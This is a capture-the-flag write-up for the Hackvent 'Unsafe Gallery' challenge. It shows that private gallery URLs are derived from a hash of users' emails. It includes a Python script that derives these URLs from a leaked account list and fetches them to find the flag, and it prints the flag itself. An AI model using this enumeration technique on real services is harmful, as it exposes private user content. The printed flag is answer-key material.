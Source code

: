 ```yaml
---
layout: writeup
title: 'Dec 15: Unsafe Gallery'
level:
difficulty:
points:
categories: []
tags: []
flag: HV17-el2S-0Td5-XcFi-6Wjg-J5aB

---
```


*See pictures you shouldn't see*

## Challenge

The List of all Users of the Unsafe Gallery was leaked (See account
list).
With this list the URL to each gallery can be constructed. E.g. you find
Danny's gallery here.

Now find the flag in Thumper's gallery.

[account list](writeupfiles/accounts.csv)

like to Danny's gallery:
http://challenges.hackvent.hacking-lab.com:3958/gallery/bncqYuhdQVey9omKA6tAFi4rep1FDRtD4H8ftWiw

## Solution

The file is a csv file with user information:

    id,prename,name,address,zip,city,email,crmId,memberType,pictureCount,galleryCount,mbUsed,logCorrelationId,advertisingId,state
    0,Ethan,McCullough,1259 Arborwood Circle,27299,Manchester,Ethan.McCullough@mccullough.com,12739789,silver,26,1,77,19591907,1,disabled
    1,Vivian,Parsons,1222 Basin Way,49195,Byromville,Vivian.Parsons@gmx.com,24818112,platin,25,1,71,14903484,7,active
    2,Kaitlyn,Wells,1547 Kinzel Station,44404,Gibson,K.Wells@sunflower.org,2024240,platin,28,1,77,98402385,14,active
    3,Dakota,Hayes,1709 Akron Trail,3063,Morrow,Dakota.Hayes@sunflower.org,98938964,gold,29,1,76,60973407,21,active
    [..]

The gallery ID could be some hash of this information, lets extract all
the Dannys and Thumpers:

    $ cat accounts.csv | grep -i danny > danny.csv
    $ cat accounts.csv | grep -i thumper > thumper.csv
{: .language-bash}

There are several Dannys in the list:

    28,Danny,Gomez,446 Richards Ridge,67398,Dudley,Danny.Gomez@sunflower.org,4334991,silver,16,1,47,37880231,139,active
    981,Danny,Head,1783 Layton Crescent,10838,Hartwell,Danny.Head@head.com,8090609,platin,7,1,17,96695095,3988,active
    1411,Danny,Brewer,827 Emily Way,85285,Ochlocknee,Danny.Brewer@brewer.com,64452336,platin,17,1,46,58734130,5718,active
    2352,Danny,Snider,1642 Warner Ridge,56674,Sycamore,D.Snider@gmail.com,58043840,platin,23,1,68,2417293,9466,active
    2406,Danny,Douglas,1497 Rondayle Ridge,27656,Gumbranch,Danny.Douglas@douglas.com,97224940,platin,10,1,28,78423462,9693,active

    [..]

    43038,Danny,Mack,1441 Brill Drive,59015,Osterfield,Danny.Mack@mack.com,56888336,platin,15,1,44,72043133,172729,disabled
    43653,Danny,Parrish,509 Jackson Ln,24360,Mcintosh,Danny.Parrish@mail.com,91465682,silver,19,1,48,52326262,175200,active
    43685,Danny,Hardy,1490 Wall Boulevard,83314,Twin Peaks,Danny.Hardy@mail.com,58905278,gold,15,1,41,35615663,175324,disabled
    43736,Danny,Ayala,853 Marlo Heights,60736,Fargo,Danny.Ayala@ayala.com,73601184,gold,28,1,73,46364233,175558,active

And one of these would appear to translate to
`bncqYuhdQVey9omKA6tAFi4rep1FDRtD4H8ftWiw` as the Gallery ID in some
way.

If we go to `/gallery` we get the message `Please use the link you got
in in the registration email or register first`
so it would make sense that the hash is based only on information
present at registration time, email would make most sense

The hash looks base64 encode, if we decode it is
`0x6e772a62e85d4157b2f6898a03ab40162e2b7a9d450d1b43e07f1fb568b0` in hex,
so
let's see if one of the email addresses translates to this when hashed..
the hash is 60 hex digits long, hmm, an odd length..

After a LOT of trial and error, we discover that while none of the email
addresses result in this hash, we see that one almost does
when SHA-256 hashed:

    >>> import hashlib
    >>> email = 'Danny.Dixon@sunflower.org'
    >>> m = hashlib.sha256()
    >>> m.update(email)
    >>> m.hexdigest()
    '6e772a62e85d4157b2f6898a03ab40162e2b7a9d7e143f91b43e07ffc7ed5a2c'
    >>> import base64
    >>> base64.b64encode(m.digest())
    'bncqYuhdQVey9omKA6tAFi4rep1+FD+RtD4H/8ftWiw='
{: .language-python}

Aha! so it is base64 encoded SHA-256 hash, but with non-alphanumeric
characters removed..

Now that we know the recipe, let's repeat it for all the Thumpers in the
list and see we can find
flags in their galleries.

    import base64
    import csv
    import hashlib
    import requests


    infile = 'thumper.csv'

    with open(infile, 'rb') as csvfile:
         reader = csv.reader(csvfile)
         userinfo = list(reader)

    for user in userinfo:
        email = user[6]

        # sha
        m = hashlib.sha256()
        m.update(email)
        sha = m.digest()

        # b64
        b = base64.b64encode(sha)
        # remove non-alphanumeric characters
        b2 = b.replace('=','').replace('+','').replace('/','')

        # test link
        url = 'http://challenges.hackvent.hacking-lab.com:3958/gallery/'+b2
        r = requests.get(url)
        if 'HV17' in r.text:
            print(r.text)
{: .language-python}

This finds us a hit at
http://challenges.hackvent.hacking-lab.com:3958/gallery/37qKYVMANnIdJ2V2EDberGmMz9JzS1pfRLVWaIKuBDw
\:

    [..]

    <div class="col-sm-6 col-md-4">
        <div class="thumbnail">
            <a class="lightbox" href="37qKYVMANnIdJ2V2EDberGmMz9JzS1pfRLVWaIKuBDw//timages/flag.jpg">
                <img src="37qKYVMANnIdJ2V2EDberGmMz9JzS1pfRLVWaIKuBDw//timages/flag.jpg" alt="C'YOU" />
            </a>
            <div class="caption">
                <h3>C'YOU</h3>
                <p>See you next spring at @HackyEaster. I count on you. HV17-el2S-0Td5-XcFi-6Wjg-J5aB</p>
            </div>
        </div>
    </div>

    [..]
{: .language-html}

![](writeupfiles/day15.png)

